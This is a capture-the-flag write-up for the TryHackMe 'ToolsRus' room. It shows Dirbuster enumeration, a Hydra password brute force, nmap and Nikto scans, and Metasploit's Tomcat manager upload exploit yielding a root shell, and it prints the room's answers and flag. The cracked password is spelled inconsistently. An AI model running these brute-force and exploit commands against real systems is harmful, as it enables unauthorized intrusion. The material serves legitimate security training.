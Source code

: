 ```yaml
---
title: Write-Up [THM] ToolsRus
template: "post"
date: "2020-08-28"
draft: false
category: "Write-Ups, TryHackMe"
tags:
  - "TryHackMe"
  - "Web"
  - "dirbuster"
  - "nikto"
  - "metasploit"
  - "hydra"
social-image: "/media/thm/toolsRus/theme.png"
description: "It's a write-up about the room : [Try Hack Me - Room : ToolsRus](https://tryhackme.com/room/toolsRus)"
---
```


It's a write-up about the room : [Try Hack Me - Room : ToolsRus](https://tryhackme.com/room/toolsRus)

# [Task 1] ToysRus

![Task 1](/assets/img/thm/toolsRus/task-1.png)


First, we deploy the machine.

* What directory can you find, that begins with a "g"?

We use `Dirbuster` with : 

```
Target Url : http://ip_machine:80/
File with lists of dirs/files : directory-list-2.3-medium.txt
Dir to start with : /
File extension : php
```

The directory that begins with a "g" is **guidelines**.

* Whose name can you find from this directory?

Go to : `http://ip_machine/guidelines` and find the message : 

```
Hey bob, did you update that TomCat server? 
```   

Therefore the name is **bob**.

* What directory has basic authentication?

With dirbuster, we find the directory **protected** which needs basic authentication.

* What is bob's password to the protected part of the website?

We use `hydra` in a terminal : `hydra -l bob -P rockyou.txt -f ip_machine http-get /protected/`  
We find **bubbles** as password.

* What other port that serves a webs service is open on the machine?

We use nmap to see all the ports : ` nmap -sV ip_machine`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The other port that serves a webs service which is open is the port **1234**.

* Going to the service running on that port, what is the name and version of the software?

Go on `http://ip_machine:1234/`.  
On that page we find the name and the version of the software : **Apache Tomcat/7.0.88**.

* Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above. How many documentation files did Nikto identify?

Go on `http://ip_machine:1234/manager/html` with the credentials :

```
login : bob
password : bubble
```

We could also use : `nikto -h http://ip_machine:1234/manager/html -id bob:bublles`.
We find **5** documentation files.


* What is the server version (run the scan against port 80)?

With nmap, we find the server version **Apache/2.4.18** for the port 80.

* What version of Apache-Coyote is this service using? 

With nmap also, we find the service version of Apache-Coyote which is **1.1**.

* Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as?

To launch metasploit on the console : `msfconsole`.  
After we use this different command : 

```
search tomcat  
use multi/http/tomcat_mgr_upload
show options
set httpPassword bubbles
set httpUsername bob
set RHOSTS ip_machine
SET RPORT 1234
run
```

Then , we can use the shell by typing `shell`.
To see what user we are, we use `whoami`.   
The output is **root**. 

* What text is in the file /root/flag.txt ?

We use cat to see the flag : `cat /root/flag.txt`.  
The flag is **ff1fc4a81affcc7688cf89ae7dc6e0e1**.